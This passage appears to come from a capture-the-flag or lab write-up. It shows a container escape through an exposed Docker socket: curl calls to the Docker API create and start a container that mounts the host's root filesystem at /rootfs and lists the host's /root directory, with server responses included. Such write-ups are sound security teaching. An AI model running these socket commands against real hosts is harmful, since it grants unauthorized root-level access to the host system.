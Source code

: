 

    root@2d24bf61767c:~# curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "ls -l /rootfs/root/"], "Tty": true}' http://localhost/containers/create
    {"Id":"0af5539d4b1cf764a116301fb13938cb361cd0386b6fbc4fb750661d1d226b36","Warnings":[]}



It returns the ID of the new container without any warnings, so it
worked.

The POST body is:



    {
      "Image": "sandbox:latest",
      "HostConfig": {
        "Binds": [
          "/:/rootfs"
        ]
      },
      "Cmd": [
        "/bin/sh",
        "-c",
        "ls -l /rootfs/root/"
      ],
      "Tty": true
    }



The `Image` comes from the list of available containers above. The
`Binds` tells the container to map the host `/` to `/rootfs` inside the
container. To start, I'll use `Cmd` to list the files in the root home
directory. For some reason I needed to set `Tty` to `true` to get this
working.

#### Start Container

Next I'll use the `/container/$id/start`
[API](https://docs.docker.com/engine/api/v1.30/#operation/ContainerStart)
to start the container (I can use the full ID or the first four
characters):



    root@2d24bf61767c:~# curl -i --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/0af5/start
    HTTP/1.1 204 No Content
    Api-Version: 1.40
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/19.03.8 (linux)
    Date: Tue, 01 Sep 2020 20:36:10 GMT



I included `-i` to see the headers. HTTP 204 is the expected code when
the container starts.
